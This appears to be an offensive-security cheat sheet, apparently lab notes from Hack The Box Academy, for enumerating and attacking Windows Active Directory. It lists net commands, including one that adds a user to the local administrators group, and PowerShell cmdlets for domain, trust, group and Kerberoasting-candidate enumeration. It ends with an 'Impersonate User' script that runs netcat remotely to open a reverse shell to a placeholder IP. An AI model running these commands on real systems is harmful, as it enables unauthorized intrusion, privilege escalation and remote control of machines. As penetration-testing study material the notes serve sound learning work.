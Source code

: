 | `net localgroup administrators [username] /add` | Add user to administrators |
| `net share` | Check current shares |
| `net user <ACCOUNT_NAME> /domain` | Get information about a user within the domain |
| `net user /domain` | List all users of the domain |
| `net user %username%` | Information about the current user |
| `net use x: \computer\share` | Mount the share locally |
| `net view` | Get a list of computers |
| `net view /all /domain[:domainname]` | Shares on the domains |
| `net view \computer /ALL` | List shares of a computer |
| `net view /domain` | List of PCs of the domain |

## Powershell CMDLED

```bash
#Discover Modules
PS C:\htb> Get-Module

#Load AD module
PS C:\htb> Import-Module ActiveDirectory

#Get Domain Info
PS C:\htb> Get-ADDomain

#Checking for trust relationships
PS C:\htb> Get-ADTrust -Filter *

#Get-ADUser listing of accounts that may be susceptible to a Kerberoasting attack
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

#Group enumeration,detailed information
PS C:\htb> Get-ADGroup -Filter * | select name
PS C:\htb> Get-ADGroup -Identity "Backup Operators"
#List the group members
PS C:\htb> Get-ADGroupMember -Identity "Backup Operators"

#Testing for Local Admin Access with the current user
PS C:\htb> Test-AdminAccess -ComputerName ACADEMY-EA-MS01
```

Impersonate User

```powershell
#Impersonate user
$user = '<domain>\<user>'
$password = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user,$password)
Invoke-Command -ComputerName '<computer-name>' -Credential $Cred -ScriptBlock { C:\Temp\netcat.exe -e cmd <ip> <port>}
```
